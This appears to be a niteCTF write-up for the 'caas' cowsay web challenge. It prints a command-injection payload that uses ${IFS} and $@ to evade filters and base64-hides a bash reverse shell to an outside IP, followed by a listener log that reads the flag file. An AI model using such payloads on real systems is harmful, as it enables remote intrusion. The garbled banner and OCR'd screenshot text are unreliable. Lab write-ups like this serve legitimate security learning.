 # caas renewed
> moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo etc/cowsay/falg.txt

## About the Challenge
We were given a website without the source code (IDK why they added the attachment after me and some teams solved this chall)


[Image extracted text: caas web nitectf live/cowsayll:
X
Not Secure
caas web nitectf live/cowsayllala
lala
LF-w]


This website will displays our input

## How to Solve?
This website is also vulnerable to OS command injection but there are a lot of restriction, but in this case I will execute a reverse shell command. Here is the payload I used to do reverse shell

```
lala;echo${IFS}YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xNDMuMTk4LjgxLjE4Ni85OTk5IDA%2BJjE=|ba$@se64${IFS}-d|ba$@sh
```

Using `$@` to bypass restricted command and `${IFS}` to bypass whitespace


[Image extracted text: Listening
on
0.0.0.0
9999
Connection
received
on
34. 93.154.102 1024
bash:
cannot
set
terminal
process
group
(1) :
Inappropriate
ioctl
for
device
bash:
no
job
control
in
this
shell
I
have
no
name ! @NSJAIL:/usr/gamess
cd /etc/cowsay
cd /etc/cowsay
I
have
no
name ! @NSJAIL:/etc/cowsays
1s
1s
falg.txt
I
have
no
name !
@NSJAIL:/etc/cowsays
cat
falg.txt
cat
falg.txt
nite{9wd_to_th3_r35cu3_dpS4kf_ud9j3od3w}
I
have
no
name ! @NSJAIL:/etc/cowsays
exit
exit]


```
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
```